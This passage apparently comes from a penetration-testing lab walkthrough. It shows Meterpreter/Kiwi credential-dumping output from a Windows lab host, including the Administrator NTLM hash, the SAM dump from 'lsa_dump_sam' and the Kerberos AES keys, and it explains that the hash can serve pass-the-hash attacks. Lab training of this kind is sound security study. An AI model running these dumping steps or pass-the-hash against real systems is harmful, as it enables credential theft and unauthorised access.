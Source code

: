 ```bash
Administrator   ATTACKDEFENSE  (null)

kerberos credentials
====================

Username        Domain         Password
--------        ------         --------
(null)          (null)         (null)
Administrator   ATTACKDEFENSE  (null)
attackdefense$  WORKGROUP      (null)
```

#### **🔓 Critical Information Found:**
- **Administrator Username:** Administrator (Windows admin account)
- **Domain:** ATTACKDEFENSE (computer name)
- **NTLM Hash:** e3c61a68f1b89ee6c8ba9507378dc88d
- **SHA1 Hash:** fa62275e30d286c09d30d8fece82664eb34323ef

#### **Understanding the Output:**
- **MSV Credentials:** Local Windows authentication hashes
- **WDigest Credentials:** Stored plaintext passwords (empty in this case)
- **Kerberos Credentials:** Domain authentication tokens (empty for workgroup)

#### **Why This is Important:**
The NTLM hash can be used for "pass-the-hash" attacks to access other systems without knowing the actual password.

---

### **Step 4: Extract SAM Database Information**

**What We're Doing:** Getting detailed information from the Security Account Manager database

#### **Command Used:**
```bash
lsa_dump_sam
```

#### **What Happened:**
```bash
meterpreter > lsa_dump_sam
[+] Running as SYSTEM
[*] Dumping SAM
Domain : ATTACKDEFENSE
SysKey : 377af0de68bdc918d22c57a263d38326
Local SID : S-1-5-21-3688751335-3073641799-161370460

SAMKey : 858f5bda5c99e45094a6a1387241a33d

RID  : 000001f4 (500)
User : Administrator
  Hash NTLM: e3c61a68f1b89ee6c8ba9507378dc88d

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : ed1f5e64aad3727f03522bbddc080d77

* Primary:Kerberos-Newer-Keys *
    Default Salt : ATTACKDEFENSEAdministrator
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : f566d48c0c62f88d997e9e56b52eed1696aead09df3100982bcfc5920655da5d
      aes128_hmac       (4096) : 0f0ca9e20c8e251c48180b80af0855
      des_cbc_md5       (4096) : 6d570d08df8979fe
```